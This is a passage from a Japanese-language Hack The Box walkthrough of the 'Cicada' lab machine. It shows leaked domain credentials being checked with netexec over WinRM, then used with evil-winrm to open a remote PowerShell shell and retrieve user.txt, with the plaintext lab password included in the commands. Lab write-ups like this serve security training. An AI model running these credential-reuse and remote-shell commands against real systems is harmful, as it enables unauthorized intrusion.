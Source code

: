 ![image-20250207134732450](screenshot/image-20250207134732450.png)

# User.txt

取得したパスワードをつかって、winrmでログインできることを確認しました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec winrm CICADA-DC.cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

evil-winrmでログインします。

```
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ evil-winrm -i CICADA-DC.cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
```

user.txtを取得しました。

![image-20250207135255973](screenshot/image-20250207135255973.png)
